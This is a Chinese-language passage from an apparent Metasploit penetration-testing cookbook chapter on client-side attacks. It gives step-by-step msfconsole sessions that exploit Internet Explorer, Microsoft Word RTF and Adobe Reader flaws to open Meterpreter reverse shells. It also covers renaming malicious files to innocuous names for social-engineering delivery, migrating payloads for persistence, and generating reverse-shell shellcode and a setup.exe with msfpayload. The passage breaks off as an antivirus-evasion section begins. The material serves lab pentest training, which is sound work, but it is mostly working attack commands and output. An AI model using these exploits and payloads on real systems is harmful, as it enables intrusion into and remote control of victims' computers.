



# 第四章：客户端攻击和防病毒绕过

在本章中，我们将涵盖：

+   Internet Explorer 不安全的脚本配置漏洞

+   Internet Explorer 递归调用内存损坏

+   Microsoft Word RTF 堆栈缓冲区溢出

+   Adobe Reader `util.printf()`缓冲区溢出

+   从`msfpayload`生成二进制和 shellcode

+   使用`msfencode`绕过客户端防病毒保护

+   使用`killav.rb`脚本禁用防病毒程序

+   深入了解`killav.rb`脚本

+   从命令行终止防病毒服务

# 介绍

在上一章中，我们专注于对目标操作系统进行渗透测试。操作系统是渗透目标的第一层，因为未打补丁和过时的操作系统很容易被利用，这将减少我们寻找其他渗透目标方法的努力。但情况可能有所不同。有时防火墙可能会阻止我们的扫描数据包，从而阻止我们获取有关目标操作系统或开放端口的任何信息。

还有可能目标有自动更新，定期修补操作系统的漏洞。这可能再次阻止所有渗透目标的攻击。这样的安全措施可以防止我们通过利用操作系统中已知的漏洞来获取对目标机器的访问。因此，我们必须向前迈进一步。这就是客户端攻击和绕过防病毒技术发挥作用的地方。让我们首先了解典型的客户端攻击向量。

假设渗透测试人员已经发现目标机器安装了更新的 Windows XP SP3 操作系统，并设置 Internet Explorer 7 作为默认浏览器来访问互联网和其他与网络相关的服务。因此，渗透测试人员现在将构建一个恶意 URL，其中包含一个可利用 IE 7 已知漏洞的可执行脚本。现在他构建了一个看似无害的 HTML 页面，并创建了一个包含相同恶意 URL 的超链接。接下来，他通过社会工程将 HTML 页面传输给目标用户，并以某种方式诱使他点击恶意超链接。由于该链接包含 IE 7 浏览器的已知漏洞利用，它可以破坏浏览器并允许进一步的代码执行，从而使渗透测试人员能够控制目标系统。他可以继续设置后门、释放病毒等。

现在到底发生了什么？尽管目标机器运行了经过修补和更新的 Windows 操作系统，但默认浏览器 IE 7 并未更新，或者说被目标用户忽视了。这使得渗透测试人员能够构建一个场景，并通过浏览器漏洞进入系统。

先前讨论的情景是一个简单的客户端攻击，目标在不知情的情况下执行了一个利用目标用户使用的应用软件中的漏洞的脚本。成功执行利用后，攻击者会破坏系统安全。

Metasploit 为我们提供了大量针对几种流行软件的利用模块，可以用于执行客户端攻击。本章将讨论的一些流行工具包括 Internet Explorer、Microsoft Office 套件、Adobe Reader、Flash 等。Metasploit 存储库包含这些流行工具的多个模块。让我们快速分析 Metasploit 中的客户端攻击过程。我们的目标是通过客户端执行成功攻击目标并建立 shell 连接。

Metasploit 将这个渗透过程分解为两个简单的步骤：

1.  为您选择的应用程序工具生成相应的恶意链接/文件。然后，它开始在特定端口上监听与目标的反向连接。然后攻击者将恶意链接/文件发送给目标用户。

1.  现在一旦目标执行了恶意链接/文件，应用程序就会被利用，Metasploit 立即将有效载荷传输到其他 Windows 进程，这样如果目标应用程序崩溃（由于利用）或用户关闭应用程序，连接仍然保持。

当我们讨论基于客户端的攻击的配方时，前面两个步骤将对你来说是清晰的。本章将专注于基于 Windows 操作系统的一些关键应用软件。我们将从分析基于浏览器的客户端攻击开始。我们将研究 Internet Explorer（版本 6、7 和 8）中的各种现有漏洞，以及如何针对它来渗透用户机器。然后，我们将转向另一个名为 Microsoft Office（版本 2003 和 2007）的流行软件包，并分析其格式漏洞。然后，我们将继续分析 PDF 漏洞，以及如何使用恶意 PDF 来破坏用户安全。最后，但并非最不重要的，我们将讨论渗透测试中非常重要的一个方面，即绕过防病毒软件。它将重点放在覆盖客户端防病毒保护，以在不引起警报的情况下利用目标机器。

本章将充分利用 Metasploit 框架的全部功能，让你会喜欢阅读和实施它。让我们继续本章的配方。

# Internet Explorer 不安全的脚本配置漏洞

让我们从第一个基于浏览器的客户端攻击开始。使用任何客户端攻击模块的基本过程与我们在之前章节中讨论的类似。唯一的区别在于将利用传输到目标机器。与基于操作系统的利用不同，客户端利用需要手动执行利用和有效载荷。一旦我们进行配方，你将清楚地理解它。所以让我们快速地开始实施攻击。

## 做好准备

我们将开始启动我们的 msfconsole 并选择相关的利用。这个过程与我们在之前章节中讨论的类似。然后，我们将继续选择一个有效载荷，它将帮助我们与目标机器建立 shell 连接。在这个配方中，我们将处理的利用是`exploit/windows/browser/i.e. unsafe scripting`。

### 注意

这个利用已知影响 Internet Explorer 6 和 7 版本，它们是 Windows XP 和 2003 服务器所有版本的默认浏览器。但它甚至成功运行在我的 Windows 7 ultimate 上，使用的是 Internet Explorer 8（未打补丁）。

当 Internet Explorer 中标记了**未标记为安全的初始化和脚本 ActiveX 控件**设置时，这个利用就会生效。可以通过启动 Internet Explorer 并浏览到**工具** | **Internet 选项** | **安全** | **自定义级别** | **未标记为安全的初始化和脚本 ActiveX 控件** | **启用**来找到这个设置。



其他版本的 Internet Explorer 也可以进行类似的设置。在这个配方中，我们将利用两个不同的目标。一个运行 Windows XP SP2，IE 7，另一个运行 Windows 7，IE 8。现在让我们继续执行利用。

## 操作步骤...

让我们开始启动 msfconsole 并将我们的相应利用设置为活动状态。一旦被利用，我们将使用`reverse_tcp`有效载荷与这两个目标建立 shell 连接：

```
msf > use exploit/windows/browser/ie_unsafe_scripting
msf exploit(ie_unsafe_scripting) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ie_unsafe_scripting) > show options
Module options (exploit/windows/browser/ie_unsafe_scripting):
Name Current Setting Required Description
---- --------------- -------- -----------
SRVHOST 0.0.0.0 yes The local host to..
SRVPORT 8080 yes The local port to..
SSL false no Negotiate SSL..
SSLCert no Path to a custom SSL..
SSLVersion SSL3 no Specify the version..
URIPATH no The URI to use for..
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
msf exploit(ie_unsafe_scripting) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

现在我们的利用程序和有效载荷已经被设置为活动状态。正如你所看到的，我们在这里没有使用 RHOST 选项，因为这是一个基于客户端的攻击。让我们看看当我们执行`exploit`命令时会发生什么：

```
msf exploit(ie_unsafe_scripting) > exploit
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.56.101:4444
[*] Using URL: http://0.0.0.0:8080/2IGIaOJQB
[*] Local IP: http://192.168.56.101:8080/2IGIaOJQB
[*] Server started. 
```

正如我们所看到的，`exploit`命令的结果生成了一个链接。这是我们将不得不发送给我们的目标的恶意链接（`http://192.168.56.101:8080/2IGIaoJQB`），以便它可以利用他们的浏览器。最后一行还说“服务器已启动”，实际上是在端口 4444 上监听来自目标机器的连接。让我们首先分析链接在 Windows XP 目标机器上的执行结果。

浏览器将尝试加载页面，但最终不会显示任何内容。相反，浏览器要么会挂起，要么会保持空闲状态。但你会注意到你的 msfconsole 上有一些活动。这个活动将类似于以下命令行中显示的活动：

```
msf exploit(ie_unsafe_scripting) > [*] Request received from 192.168.56.102:1080...
[*] Encoding payload into vbs/javascript/html...
[*] Sending exploit html/javascript to 192.168.56.102:1080...
[*] Exe will be uunqgEBHE.exe and must be manually removed from the %TEMP% directory on the target.
Sending stage (752128 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:1081) at 2011-11-12 21:09:26 +0530 
```

太棒了！我们与目标机器有一个活动会话。前面的命令行输出显示，在我们的目标的`temp`文件夹中创建了一个可执行文件，这个文件负责整个利用过程。

让我们现在分析这个恶意链接在运行 IE 8 的 Windows 7 机器上的执行结果。

我们将注意到 Internet Explorer 会提示一个警报消息。点击**允许**后，外部脚本将被执行，浏览器可能会崩溃或挂起（取决于系统）。


让我们切换到攻击 msfconsole 并注意活动。我们将注意到以下命令行活动：

```
msf exploit(ie_unsafe_scripting) > [*] Request received from 192.168.56.1:51115...
[*] Encoding payload into vbs/javascript/html...
[*] Sending exploit html/javascript to 192.168.56.1:51115...
[*] Exe will be uddoE.exe and must be manually removed from the %TEMP% directory on the target.
[*] Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:51116) at 2011-11-12 21:15:47 +0530 
```

我们还有一个与 Windows 7 机器打开的活动会话。让我们开始与我们的会话互动：

```
msf exploit(ie_unsafe_scripting) > sessions
Active sessions
===============
Id Type Information Connection
-- ---- ----------- ----------
1 meterpreter x86/win32 DARKLORD-9CAD38\darklord
2 meterpreter x86/win32 HackingAlert-PC\hackingalert 
```

正如你所看到的，`sessions`命令显示了我们可以使用的活动会话。一个是我们的 Win XP 机器，另一个是 Win7 机器。让我们继续与第二个会话互动，也就是 Windows 7 机器。

```
msf exploit(ie_unsafe_scripting) > sessions -i 1
meterpreter > shell
Process 4844 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7264]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32> 
```

## 它是如何工作的...

工作过程可能对你来说很清楚。让我们专注于这个利用的原因。当设置“未标记为脚本安全的 ActiveX 控件的初始化和脚本”时，它允许访问`WScript.Shell` ActiveX 控件。这个`WScript.Shell`对象提供了读取文件系统、环境变量、读取和修改注册表以及管理快捷方式的功能。`WScript.Shell`的这个特性允许攻击者创建一个 JavaScript 来与文件系统交互并运行命令。

## 还有更多...

让我们谈谈另一个可以在客户端攻击中使用的重要基于浏览器的利用。

### Internet Explorer Aurora 内存损坏

这是另一个广泛使用的 IE 利用，于 2010 年中期曝光。这个漏洞是“极光行动”的关键组成部分，黑客们针对一些顶级公司。该模块利用了 IE 6 中的内存损坏漏洞。我将把这个模块留给你作为一个练习来尝试和探索。利用可以在`exploit/windows/browser/ms10_002_aurora`中找到。

# Internet Explorer CSS 递归调用内存损坏

这是 Windows 平台上运行 IE 浏览器的最新利用之一。这个利用已知影响 Windows 7 和 Windows 2008 服务器，IE 8 作为默认浏览器。这个利用的工作过程与我们刚刚在上一个示例中讨论的工作过程类似。所以让我们快速测试一下。我们的目标机器是运行 IE 8（未打补丁）的 Windows 7 旗舰版。

## 准备就绪

我们将从启动 msfconsole 开始。在这个示例中，我们的利用是`exploit/windows/browser/ms11_003_ie_css_import`，我们的有效载荷将是`windows/meterpreter/bind_tcp`，这将帮助我们与目标机器建立 shell 连接。

## 如何做...

我们将以迄今为止的相同方式开始。首先，我们将选择利用。然后，我们将选择有效载荷，并传递利用和有效载荷所需的各种参数值。让我们在我们的 msfconsole 中继续进行所有这些步骤。

```
msf > use exploit/windows/browser/ms11_003_ie_css_import
msf exploit(ms11_003_ie_css_import) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
smsf exploit(ms11_003_ie_css_import) > set LHOST 192.168.56.101
LHOST => 192.168.56.101
msf exploit(ms11_003_ie_css_import) > exploit
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.56.101:4444
[*] Using URL: http://0.0.0.0:8080/K9JqHoWjzyAPji
[*] Local IP: http://192.168.56.101:8080/K9JqHoWjzyAPji
[*] Server started. 
```

正如我们所看到的，漏洞利用和有效载荷已经设置，并带有各种参数。执行`exploit`命令后，模块生成了一个本地链接`http://192.168.56.101:8080/K9JqHoWjzyAPji`。这是恶意链接，必须传输给目标，以便他在 IE 浏览器中执行。目标浏览器将完全冻结，并且将占用系统资源的大部分。目标将被迫关闭浏览器。让我们在 msfconsole 上监视活动：

```
[*] 192.168.56.1:52175 Received request for "/K9JqHoWjzyAPji/\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A\xEE\x80\xA0\xE1\x81\x9A"
[*] 192.168.56.1:52175 Sending
windows/browser/ms11_003_ie_css_import CSS
[*] Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.1:52176) at 2011-11-15 13:18:17 +0530
[*] Session ID 1 (192.168.56.101:4444 -> 192.168.56.1:52176) processing InitialAutoRunScript 'migrate -f'
[*] Current server process: iexplore.exe (5164)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 5220
[+] Successfully migrated to process 
```

在目标浏览器成功执行漏洞利用后，我们在 msfconsole 中启动了一个会话，从而打开了 shell 连接。但在 msf 和目标之间建立会话后，还会发生更多的事情。`InitialAutoRunScript`执行了一个`migrate -f`命令，将有效载荷从`iexplore.exe`迁移到`notepad.exe`。这一步对于持久连接是必不可少的。即使目标用户关闭了浏览器，连接仍然会保持活动，因为我们已经迁移到另一个进程。

## 工作原理...

让我们挖掘一下这个漏洞，以获取更多信息。嗯，漏洞的原因正是它的名字所说的。当微软的 HTML 引擎（mshtml）解析递归多次导入相同的 CSS 文件的 HTML 页面时，就会导致内存损坏并允许任意代码执行。考虑以下 HTML 代码片段。

```
// html file
<link href="css.css" rel="stylesheet" type="text/css" />
// css file
*{
color:red;
}
@import url("css.css");
@import url("css.css");
@import url("css.css");
@import url("css.css"); 
```

同一个 CSS 文件被调用了四次。当 mshtml 解析这个 HTML 页面时，就会导致内存损坏。这个漏洞利用利用了堆喷射和.NET 2.0 **mscorie.dll**模块的组合来绕过 DEP 和 ASLR。由于系统资源的过度消耗，最终会崩溃。使用这个漏洞，攻击者获得与已登录用户相同的用户权限。



在前面的屏幕截图中，您可以看到背景是 IE 实例，其中执行了恶意链接，前景图像是 Windows 任务管理器，您可以清楚地看到 IE 浏览器过度消耗内存。在任务管理器中还有一件有趣的事情要注意，那就是 notepad.exe 进程。尽管没有运行 notepad 的实例，但任务管理器仍然显示这个进程。这样做的明显原因是我们已经从 iexplorer.exe 迁移到 notepad.exe，所以这个进程在后台运行。

## 还有更多...

在使用这个漏洞利用模块时，我们可能会遇到一个常见的错误。让我们快速看一下，并找出相关的解决方案。

### 缺少.NET CLR 2.0.50727

在使用这个漏洞利用模块时，您可能会遇到一个错误"目标机器没有.NET CLR 2.0.50727"。嗯，这个错误的原因不是因为缺少.NET。它的主要原因是因为 Internet Explorer 没有设置为默认浏览器，因此用户代理被滥用以从非 ASLR 区域获取地址。通过将 Internet Explorer 设置为默认的 Web 浏览器，可以克服这个错误。

# Microsoft Word RTF 堆栈缓冲区溢出

在前两个教程中，我们完全专注于基于浏览器的漏洞利用。现在在这个教程中，我们将专注于另一个流行的 Windows 工具，称为 Microsoft Office。RTF 缓冲区溢出漏洞存在于 Office 软件包的 2010 和 2007 版本中。这个漏洞存在于 Microsoft Word RTF 解析器中的`pfragments`形状属性的处理中。让我们详细了解这个漏洞利用。我假设我们已经获得了关于我们的目标的信息，即他的系统上安装了 Office 软件包。

## 准备工作

我们将从启动 msfconsole 开始。我们将在这个教程中使用的漏洞可以在`exploit/windows/fileformat/ms10_087_rtf_pfragments_bof`中找到。我们将使用的有效载荷是`windows/meterpreter/reverse_tcp`，以与目标机器建立 shell 连接。

## 如何做...

工作过程将与我们在以前的食谱中看到的类似。我们将首先设置我们的利用。然后，我们将选择一个有效载荷，然后传递相关参数，以便成功执行利用。让我们执行这些步骤。

```
msf > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof
msf exploit(ms10_087_rtf_pfragments_bof) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(ms10_087_rtf_pfragments_bof) > show options
Module options (exploit/windows/fileformat/ms10_087_rtf_pfragments_bof):
Name Current Setting Required Description
---- --------------- -------- -----------
FILENAME msf.rtf yes The file name.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic 
```

利用包含一个`FILENAME`参数，其中包含有关要创建的恶意文件名的信息。默认值为`msf.rtf`。让我们将其更改为一些不太可疑的名称。我们还将设置`LHOST`的值，这是攻击机的 IP 地址。

```
msf exploit(ms10_087_rtf_pfragments_bof) > set FILENAME priceinfo.rtf
FILENAME => priceinfo.rtf
msf exploit(ms10_087_rtf_pfragments_bof) > set LHOST 192.168.56.101 
```

文件名已更改为`priceinfo.rtf`，`LHOST`的值已设置为`192.168.56.101`。所以我们已经准备好执行利用模块了。

```
msf exploit(ms10_087_rtf_pfragments_bof) > exploit
[*] Creating 'priceinfo.rtf' file ...
[+] priceinfo.rtf stored at /root/.msf4/local/priceinfo.rtf 
```

Metasploit 已经为我们创建了一个恶意文件，我们必须使用它来进行客户端攻击。该文件位于`/root/.msf4/local/priceinfo.rtf`。现在的下一步是将此文件发送给目标用户，可以通过邮件或其他媒介。一旦目标用户执行了这个恶意文件，我们会注意到它会以一个 Word 文档的形式打开。在执行几秒钟后，Microsoft Word 实例将挂起或崩溃，具体取决于系统。与此同时，恶意文件成功执行利用，并为目标提供了一个活动会话。为了使连接持久，利用将自己迁移到后台运行的其他进程。

```
Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:57031) at 2011-11-13 23:16:20 +0530
[*] Session ID 2 (192.168.56.101:4444 -> 192.168.56.1:57031) processing InitialAutoRunScript 'migrate -f'
[*] Current server process: WINWORD.EXE (5820)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 5556
[+] Successfully migrated to process 
```

命令行的前几行显示了成功执行利用，结果是与`SESSION ID = 2`的活动会话。命令行的最后部分显示，利用已成功从`WINWORD.EXE`迁移到`notepad.exe`。

## 工作原理...

利用模块简单地创建一个恶意的 Word 文件，向 Word 解析器传递非法值。解析器无法识别非法值导致缓冲区溢出。然后有效载荷开始执行代码，与攻击机建立反向连接。这种攻击的成功与机器有关，因为有时**Windows ASLR（地址空间布局随机化）**可能会阻止执行任意代码（有效载荷）。

## 还有更多...

Office 套件还有另一个流行的利用。我将把它作为一个实践的课程留给你。在这里，我将简要概述一下。

### Microsoft Excel 2007 缓冲区溢出

这个已知的利用针对 Microsoft Excel 工具（`.xlb`）的 2007 版本。执行恶意的.xlb 文件可能导致基于堆栈的缓冲区溢出，并导致任意代码执行。利用可以在`exploit/windows/fileformat/ms11_021_xlb_bof`中找到。

# Adobe Reader util.printf()缓冲区溢出

PDF 是用于共享文件和文档的最广泛使用的格式之一。因此，将其用作利用目标机器的潜在武器可能是一个有益的想法。Adobe Reader 是最流行的 PDF 文件阅读工具。我们将讨论的利用是存在于 Adobe Reader 8.1.3 版本之前的漏洞。利用的工作原理是创建一个恶意的 PDF 文件，当在 Adobe Reader 的易受攻击版本中打开时，会导致缓冲区溢出，并允许任意代码执行。

## 准备工作

利用过程与本章迄今讨论的利用非常相似。几乎所有客户端攻击都以类似的方式工作，我们首先生成一个恶意文件/链接，然后以某种方式要求目标用户在其机器上执行它。因此，客户端攻击也涉及社会工程。让我们继续进行这次利用。在这里，我们的目标机器是运行 Adobe Reader 8.1 的 Windows XP SP3。

我们将从启动我们的 msfconsole 开始，并使用模块`exploit/windows/fileformat/adobe_utilprintf`和有效载荷模块`windows/meterpreter/reverse_tcp`。

## 如何做...

我们将从选择漏洞利用并将其设置为活动开始。然后，我们将设置有效载荷。在选择漏洞利用和有效载荷之后，我们的下一步将是传递执行所需的各种参数值。所以，让我们继续在 msfconsole 上执行这些步骤。

```
msf > use exploit/windows/fileformat/adobe_utilprintf
msf exploit(adobe_utilprintf) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > show options
Module options (exploit/windows/fileformat/adobe_utilprintf):
Name Current Setting Required Description
---- --------------- -------- -----------
FILENAME msf.pdf yes The file name.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Adobe Reader v8.1.2 (Windows XP SP3 English) 
```

如你所见，目标版本的 Adobe Reader 被列为 8.1.2，操作系统被标记为 Windows XP SP3。因此，这次漏洞利用的成功将在很大程度上取决于目标使用的 Adobe Reader 版本或操作系统。

漏洞利用模块包含一个带有默认值的参数`FILENAME`。这个参数决定了将要创建的恶意 PDF 文件的名称。让我们将其值更改为一些不太可疑的东西。同时，我们还必须在`LHOST`参数中传递本地机器的 IP 地址。

```
msf exploit(adobe_utilprintf) > set FILENAME progressreport.pdf
FILENAME => progressreprt.pdf
msf exploit(adobe_utilprintf) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

现在我们已经准备好执行漏洞利用命令并生成恶意 PDF 文件，这将用于我们的客户端攻击。

```
msf exploit(adobe_utilprintf) > exploit
[*] Creating 'progressreport.pdf' file...
[+] progressreport.pdf stored at /root/.msf4/local/progressreport.pdf 
```

最后，一个名为`progressreport.pdf`的恶意 PDF 文件已经被创建并存储在`/root/.msf4/local`文件夹中。

这一次，我们将采用稍微不同的方法来启动反向连接的监听器。假设有一种情况，当你不得不突然关闭你的 msfconsole 时。那么漏洞利用怎么办？我们需要再次创建恶意 PDF 吗？答案是否定的。Metasploit 中有一个特殊的监听器模块，可以用来在 msfconsole 上启动监听器，这样你就可以使用为客户端攻击生成的相同文件/链接继续进行渗透测试过程。假设我们已经生成了恶意 PDF 文件，但尚未用于客户端攻击。所以让我们再次启动 msfconsole，并使用`exploit/multi/handler`模块设置反向连接的监听器。

```
msf > use exploit/multi/handler
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: she..
LHOST yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101 
```

如你所见，我们已经设置了模块`multi/handler`，然后我们还为其添加了有效载荷。下一步是根据使用情况添加`LHOST`和`LPORT`。我们还有一个额外的选项，可以在 multi/handler 模块中运行额外的脚本。我们将在下一章中讨论它。最后一步是执行漏洞利用命令并启动监听器。

```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.56.101:4444 
```

所以我们的反向处理程序已经启动并运行。现在它已经准备好在目标机器上恶意 PDF 被执行后接收连接。

一旦 PDF 在客户端机器上执行，它会完全冻结，Adobe Reader 会完全挂起，导致服务拒绝。这次崩溃的原因是由于恶意 PDF 文件引起的缓冲区溢出。在攻击者端，你会看到一个 meterpreter 会话已经启动，现在目标机器可以远程处理。

```
[*] Started reverse handler on 192.168.56.101:4444
[*] Starting the payload handler...
[*] Sending stage (752128 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:1035) at 2011-11-25 12:29:36 +0530
meterpreter > shell
Process 1880 created.
Channel 1 created.
Microsoft Windows XP SP3
(C) Copyright 1985-2001 Microsoft Corp.
E:\> 
```

## 它是如何工作的...

这个问题是在易受攻击的 Adobe Reader 版本中实现 JavaScript `util.printf()`函数的方式中被发现的。该函数首先将其接收到的参数转换为字符串，只使用参数的前 16 位数字，并用固定值“0”（0x30）填充其余部分。通过向函数传递过长且格式正确的命令，可以覆盖程序的内存并控制其执行流程。Metasploit 模块创建了一个特别设计的 PDF 文件，嵌入了 JavaScript 代码来操纵程序的内存分配模式并触发漏洞。这可以让攻击者以运行 Adobe Reader 应用程序的用户权限执行任意代码。

考虑嵌入在 PDF 中的以下两行 JavaScript 代码：

```
var num = 1.2
util.printf("%5000f",num) 
```

这两行简单的 JavaScript 代码会在堆栈上复制 5000 次字节 0x20。这允许你控制异常处理程序，并在尝试写入堆栈后面的部分时触发异常。

# 从 msfpayload 生成二进制和 shellcode

到目前为止，我们已经讨论了许多可以用于利用客户端攻击渗透目标机器的技术。所有这些技术都涉及利用运行在客户端机器上的各种应用软件中的漏洞。但是，可能存在一种情况，先前讨论的技术可能无法奏效。这些攻击使我们处于对应用软件的漏洞的控制之下，我们必须利用这些漏洞以获取访问权限。

Metasploit 为我们提供了另一个功能，我们可以执行客户端攻击，而不必担心利用目标机器上运行的应用软件。`msfpayload`就是解决方案。让我们简要介绍一下`msfpayload`，然后继续实际实施。

`msfpayload`是 Metasploit 的命令行实例，用于生成 Metasploit 存储库中可用的各种文件类型的 shellcode。可用的文件类型选项包括 C、Ruby、Raw、Exe、Dll、VBA 和 War。我们可以使用`msfpayload`将任何 Metasploit shellcode 转换为这些提到的文件格式之一。然后，它可以传输到目标机器上执行。一旦文件在目标机器上执行，我们将获得一个活动会话。这减少了利用目标机器上运行的应用软件中存在的任何漏洞的开销。`msfpayload`的另一个主要好处是，它可以用于生成特定编程语言（如 C、Ruby 等）的定制 shellcode，这些 shellcode 可以在您自己的利用开发代码中使用。

使用`msfpayload`的一个主要缺点是，当目标尝试执行它时，使用它生成的文件很容易被杀毒程序检测到。让我们继续前进，感受一下`msfpayload`可以为我们的渗透测试过程增添的力量。

## 准备工作

让我们开始尝试`msfpayload`。我们将从启动 BackTrack 终端开始。我们可以使用命令`msfpayload -h`来查看其用法的描述。

```
root@bt:~# msfpayload -h
Usage: /opt/framework3/msf3/msfpayload [<options>] <payload> [var=val] <[S]ummary|C|[P]erl|Rub[y]|[R]aw|[J]s|e[X]e|[D]ll|[V]BA|[W]ar> 
```

要查看可用的 shellcode 列表，我们可以使用`msfpayload -l`命令。您将发现我们可以使用的大量可用 shellcode 列表。

## 如何做...

让我们继续看看如何在 C 语言中生成特定定制的 shellcode。我们将使用`windows/shell/reverse_tcp`有效载荷来生成其 C 语言的 shellcode。我们将首先选择我们各自的有效载荷 shell 并传递各种参数值。

```
root@bt:~# msfpayload windows/shell/reverse_tcp o
Name: Windows Command Shell, Reverse TCP Stager
Module: payload/windows/shell/reverse_tcp
Version: 10394, 11421
Platform: Windows
Arch: x86
Needs Admin: No
Total size: 290
Rank: Normal
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port 
```

注意命令行中的小`o`参数列出了 shellcode 有效载荷的各种参数选项。我们将不得不传递这些值，以生成我们自己使用的定制 shellcode。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 LPORT=4441 o 
```

因此，我们已根据需要设置了`LHOST`和`LPORT`。下一步将是为我们定制的 shell 生成 C 代码（显示的输出已经被缩短以适应）。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 LPORT=4441 C
/*
* windows/shell/reverse_tcp - 290 bytes (stage 1)
* http://www.metasploit.com
* VERBOSE=false, LHOST=192.168.56.101, LPORT=4441,
* ReverseConnectRetries=5, EXITFUNC=process,
* InitialAutoRunScript=, AutoRunScript=
*/
unsigned char buf[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68"
"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01" 
```

注意命令行中的大写`C`参数。您将注意到一个完整的 C 语言 shellcode，我们可以在自己的利用开发代码中使用。或者，我们也有选项可以生成 Ruby 和 Perl 语言的代码。

让我们继续进行下一步，生成一个用于客户端攻击的 shellcode 的二进制可执行文件。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 X > .local/setup.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/shell/reverse_tcp
Length: 290
Options: {"LHOST"=>"192.168.56.101"} 
```

注意我们在命令行中传递的各种参数。我们使用`X`参数生成了一个 exe 文件类型，并且该文件已经在名为`.local`的文件夹中生成，文件名为`setup.exe`。现在，这个生成的 exe 可以在我们的客户端攻击中使用。

## 工作原理...

现在我们的可执行文件已经准备好了，我们将不得不在 msfconsole 中设置一个监听器，以便在目标执行此 exe 文件时监听返回连接。

```
msf > use multi/handler
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > set LHOST 192.168.46.101
msf exploit(handler) > exploit
[-] Handler failed to bind to 192.168.46.101:4444
[*] Started reverse handler on 0.0.0.0:4444
[*] Starting the payload handler 
```

注意，我们使用了相同的 payload，并传递了与生成可执行文件时使用的相同的参数值。现在我们的监听器已经准备好接收反向连接。一旦目标用户（运行 Windows 7 之前的 Windows）执行了恶意的 exe 文件，我们就会获得 shell 连接。

# 使用 msfencode 绕过客户端防病毒软件保护

在上一个步骤中，我们专注于如何生成可执行的 shellcode，并将其用作客户端攻击的武器。但是，这样的可执行文件很容易被客户端防病毒软件检测到，可以阻止执行这样的恶意文件，并且还会引发警报。那么现在我们该怎么办呢？我们将不得不通过编码可执行文件来提高攻击向量的级别。

